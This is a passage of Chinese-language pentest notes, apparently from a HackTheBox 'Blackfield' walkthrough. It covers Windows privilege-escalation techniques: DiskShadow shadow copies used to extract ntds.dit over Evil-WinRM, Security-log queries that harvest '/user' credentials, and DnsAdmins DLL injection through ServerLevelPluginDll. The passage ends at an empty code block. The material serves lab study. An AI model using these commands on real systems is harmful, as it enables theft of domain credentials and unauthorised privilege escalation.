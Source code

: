 ``` powershell
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  6/20/2020 6:42:48 PM

-> set context persistent nowriters
-> add volume c: alias binsec
-> create
Alias binsec for shadow ID {0068d66f-2552-4900-ae8b-8d4f2012c0a9} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {7c516490-e0d1-428d-a35a-ba583b2dcb2d} set as environment variable.

Querying all shadow copies with the shadow copy set ID {7c516490-e0d1-428d-a35a-ba583b2dcb2d}

        * Shadow copy ID = {0068d66f-2552-4900-ae8b-8d4f2012c0a9}               %binsec%
                - Shadow copy set: {7c516490-e0d1-428d-a35a-ba583b2dcb2d}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{351b4712-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 6/20/2020 6:42:49 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %binsec% z:
-> %binsec% = {0068d66f-2552-4900-ae8b-8d4f2012c0a9}
The shadow copy was successfully exposed as z:\.
->
*Evil-WinRM* PS C:\.enum>
```
- 撈出`ntds.dit`
```
*Evil-WinRM* PS C:\.enum> cd Z:\
*Evil-WinRM* PS Z:\> cd Windows\NTDS
*Evil-WinRM* PS Z:\Windows\NTDS> cp ntds.dit C:\.enum
```
## Event Log Readers
>[!warning ] 小節重點
>因為可以看logs，所以可能可以抓取一些log裡面的帳號密碼。
- 檢查Event Log Readers群組裡面的人
```cmd
net localgroup "Event Log Readers"
```
### 抓取log裡面的user資訊
```powershell
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```
### Searching Security Logs Using Get-WinEvent
```powershell
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```
## DnsAdmins
>[!warning ] 小節重點
>DnsAdmins 成員可以使用dnscmd來管理DNS，然後dnscmd的registry裡面的`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll`可以加入客製化dll。
### 製作DLL
```shell
```